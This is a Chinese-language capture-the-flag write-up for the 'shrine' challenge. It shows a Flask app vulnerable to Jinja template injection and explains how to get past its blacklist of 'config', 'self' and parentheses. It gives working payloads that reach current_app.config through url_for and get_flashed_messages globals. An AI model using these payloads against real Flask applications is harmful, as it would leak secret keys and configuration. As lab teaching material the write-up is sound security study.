




# [WesternCTF2018]shrine

## 知识点

`flask`

`python沙箱逃逸`

## 解题

进入首页给了网站源码

```python
import flask
import os

app = flask.Flask(__name__)

app.config['FLAG'] = os.environ.pop('FLAG')


@app.route('/')
def index():
    return open(__file__).read()


@app.route('/shrine/<path:shrine>')
def shrine(shrine):

    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{}'.format(c) for c in blacklist]) + s

    return flask.render_template_string(safe_jinja(shrine))


if __name__ == '__main__':
    app.run(debug=True)
```

发现禁用了`config`和`self`，`()`也会置为空，如果`config`和`self`没禁用

如果没有黑名单的时候，我们可以使用`config`，传入 `config`，或者使用`self`，传入 `{{self.__dict__}}`

当`config`,`self`,`()`都被过滤的时候，为了获取讯息，我们需要读取一些例如`current_app`这样的全局变量。

`python`的沙箱逃逸这里的方法是`利用python对象之间的引用关系来调用被禁用的函数对象`。

这里有两个函数包含了`current_app`全局变量，`url_for`和`get_flashed_messages`,我们注入`{{url_for.__globals__}}`得到



然后直接用`payload`读取配置文件

```
{{url_for.__globals__.current_app.config}}
{{url_for.__globals__['current_app'].config}}
```



或者用`get_flashed_messages`

```
{{get_flashed_messages.__globals__.current_app.config}}
{{get_flashed_messages.__globals__['current_app'].config}}
```



